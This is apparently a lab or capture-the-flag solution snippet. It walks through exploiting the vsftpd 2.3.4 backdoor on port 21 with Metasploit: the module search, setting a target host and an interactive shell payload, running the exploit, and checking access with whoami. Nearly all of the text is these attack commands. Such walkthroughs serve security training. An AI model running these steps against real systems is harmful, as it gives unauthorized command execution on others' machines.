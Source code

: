 Port 21 vsftpd

<details>
    <summary>Solution</summary>

    ```javascript
    search vsftpd
    ```


    The output of the search is: 



    ```markdown
    Matching Modules

    ================

    Name                                  Disclosure Date  Rank    Description

    ----                                  ---------------  ----    -----------

    exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  VSFTPD v2.3.4 Backdoor Command Execution
    ```

    Now to the exploitation:

    ```markdown
    use exploit/unix/ftp/vsftpd_234_backdoor

    set RHOST 10.0.0.3

    set payload cmd/unix/interact

    exploit
   
    ```

    To verify if the exploit worked use 
    ```markdown
    whoami
    ```
</details>